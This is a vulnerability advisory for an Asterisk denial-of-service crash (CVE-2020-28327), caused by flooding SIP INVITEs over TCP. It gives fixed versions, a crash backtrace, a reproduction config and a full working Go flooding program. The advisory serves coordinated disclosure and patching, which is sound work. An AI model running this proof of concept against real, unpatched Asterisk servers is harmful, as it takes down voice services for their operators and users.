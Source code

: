 # Asterisk crash due to INVITE flood over TCP

- Fixed versions: 13.37.1, 16.14.1, 17.8.1, 18.0.1
- Enable Security Advisory: https://github.com/EnableSecurity/advisories/tree/master/ES2020-02-asterisk-tcp-invite-crash
- Asterisk Security Advisory: https://downloads.asterisk.org/pub/security/AST-2020-001.html
- References: AST-2020-001, CVE-2020-28327
- Tested vulnerable versions: 17.5.1, 17.6.0
- Timeline:
    - Report date: 2020-08-31
	- Triaged: 2020-09-01
	- Fix provided for testing: 2020-10-29
	- Asterisk release with fix: 2020-11-05
	- Enable Security advisory: 2020-11-06

## Description

When an Asterisk instance is flooded with INVITE messages over TCP, it was observed that after some time Asterisk crashes due to a segmentation fault. The backtrace generated after the crash is:

```
3276        PJ_ASSERT_RETURN((cseq=(pjsip_cseq_hdr*)pjsip_msg_find_hdr(tdata->msg, PJSIP_H_CSEQ, NULL))!=NULL
(gdb) bt
#0  0x00007ffff7df1b80 in pjsip_inv_send_msg (inv=0x7fffc88aa5a8, tdata=0x7fffa706a6d8) at ../src/pjsip-ua/sip_inv.c:3276
#1  0x00007ffff4623c41 in ast_sip_session_send_response (session=0x7fffc88ab9f0, tdata=0x7fffa706a6d8) at res_pjsip_session.c:1917
#2  0x00007ffff4627b6b in new_invite (invite=0x7fff94eccb60) at res_pjsip_session.c:3253
#3  0x00007ffff462815b in handle_new_invite_request (rdata=0x7fffa61ec608) at res_pjsip_session.c:3382
#4  0x00007ffff462833d in session_on_rx_request (rdata=0x7fffa61ec608) at res_pjsip_session.c:3446
#5  0x00007ffff7e190ec in pjsip_endpt_process_rx_data (endpt=0x5555559c9d18, rdata=0x7fffa61ec608, p=0x7ffff47c66a0 <param>, p_handled=0x7fff94eccc6c) at ../src/pjsip/sip_endpoint.c:930
#6  0x00007ffff47922a1 in distribute (data=0x7fffa61ec608) at res_pjsip/pjsip_distributor.c:955
#7  0x000055555574c7e1 in ast_taskprocessor_execute (tps=0x555555bb5a80) at taskprocessor.c:1237
#8  0x0000555555756dc7 in execute_tasks (data=0x555555bb5a80) at threadpool.c:1354
#9  0x000055555574c7e1 in ast_taskprocessor_execute (tps=0x5555559c8040) at taskprocessor.c:1237
#10 0x0000555555754698 in threadpool_execute (pool=0x5555559c6070) at threadpool.c:367
#11 0x000055555575655d in worker_active (worker=0x7fff98003e50) at threadpool.c:1137
#12 0x00005555557562bb in worker_start (arg=0x7fff98003e50) at threadpool.c:1056
#13 0x00005555557604ad in dummy_start (data=0x7fffa41fb6e0) at utils.c:1249
#14 0x00007ffff764e609 in start_thread (arg=<optimized out>) at pthread_create.c:477
#15 0x00007ffff728b103 in clone () at ../sysdeps/unix/sysv/linux/x86_64/clone.S:95
```

## Impact

Abuse of this vulnerability leads to denial of service in Asterisk when SIP over TCP is in use.

## How to reproduce the issue

The following `pjsip.conf` configuration file was used to facilitate the reproduction of this issue:

```
[global]
debug=yes

[transport-tcp]
type = transport
protocol = tcp
bind = 0.0.0.0

[anonymous]
type = endpoint
context = anon
allow = all
```

The following code in Go can be used to reproduce this issue:

```go
package main

import (
	"bytes"
	"flag"
	"fmt"
	"math/rand"
	"net"
	"strconv"
	"strings"
	"time"
)

const charset = "ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"

func init() {
	rand.Seed(time.Now().UnixNano())
}

func randstr(length int) string {
	b := make([]byte, length)
	for i := range b {
		b[i] = charset[rand.Intn(len(charset))]
	}
	return string(b)
}

type loop struct {
	host   string
	port   int
	conn   net.Conn
	invite []byte
	cseq   int
}

func (l *loop) start() {
	sdp := "v=0\r\n"
	sdp += "o=- 1598350717 1598350717 IN IP4 192.168.1.112\r\n"
	sdp += "s=-\r\n"
	sdp += "c=IN IP4 192.168.1.112\r\n"
	sdp += "t=0 0\r\n"
	sdp += "m=audio 9999 RTP/AVP 0\r\n"
	sdp += "a=rtpmap:0 PCMU/8000/1\r\n"
	sdp += "a=sendrecv\r\n"

	invite := "INVITE sip:5cb49ced@127.0.0.1:5060 SIP/2.0\r\n"
	invite += "Via: SIP/2.0/UDP 192.168.1.112:44896;rport;branch=z9hG4bK-_BRANCH_\r\n"
	invite += "Max-Forwards: 70\r\n"
	invite += "From: <sip:5cb49ced@127.0.0.1:5060>;tag=2k309f\r\n"
	invite += "To: <sip:5cb49ced@127.0.0.1:5060>\r\n"
	invite += "Call-ID: 2345908ux\r\n"
	invite += "CSeq: _CSEQ_ INVITE\r\n"
	invite += "Contact: <sip:5cb49ced@192.168.1.112:44896;transport=udp>\r\n"
	invite += fmt.Sprintf("Content-Length: %d\r\n", len(sdp))
	invite += "Content-Type: application/sdp\r\n"
	invite += "\r\n"
	invite += sdp

	l.invite = []byte(invite)

	var err error
	l.conn, err = net.DialTimeout("tcp4", fmt.Sprintf("%s:%d", l.host, l.port), 5*time.Second)
	if err != nil {
		fmt.Println(err.Error())
		time.Sleep(10 * time.Millisecond)
		go l.start()
		return
	}

	if l.conn != nil {
		l.run()
	} else {
		time.Sleep(10 * time.Millisecond)
		go l.start()
	}
}

func (l *loop) run() {
	if err := l.conn.SetWriteDeadline(time.Now().Add(10 * time.Millisecond)); err != nil {
		if strings.Contains(err.Error(), "use of closed network connection") {
			l.start()
		}

	}

	var err error
	for {
		l.cseq++
		inv := l.invite
		inv = bytes.ReplaceAll(inv, []byte("_BRANCH_"), []byte(randstr(8)))
		inv = bytes.ReplaceAll(inv, []byte("_CSEQ_"), []byte(strconv.Itoa(l.cseq)))

		if _, err = l.conn.Write(inv); err != nil {
			go l.start()
			return
		}
	}
}

func main() {
	var port = flag.Int("p", 5060, "Port")
	var host = flag.String("h", "127.0.0.1", "Host")
	flag.Parse()

	for i := 0; i < 100; i++ {
		go func() {
			l := loop{
				host: *host,
				port: *port,
			}
			l.start()
		}()
	}
	select {}
}
```

## Solution and recommendations

Apply the patch provided by Asterisk or upgrade to a fixed version.

Enable Security would like to thank Kevin Harwell, Joshua C. Colp and the staff at Asterisk for the very quick response and fixing this security issue.

## About Enable Security

[Enable Security](https://www.enablesecurity.com) develops offensive security tools and provides quality penetration testing to help protect your real-time communications systems against attack.

## Disclaimer

The information in the advisory is believed to be accurate at the time of publishing based on currently available information. Use of the information constitutes acceptance for use in an AS IS condition. There are no warranties with regard to this information. Neither the author nor the publisher accepts any liability for any direct, indirect, or consequential loss or damage arising from use of, or reliance on, this information.

## Disclosure policy

This report is subject to Enable Security's vulnerability disclosure policy which can be found at <https://github.com/EnableSecurity/Vulnerability-Disclosure-Policy>.

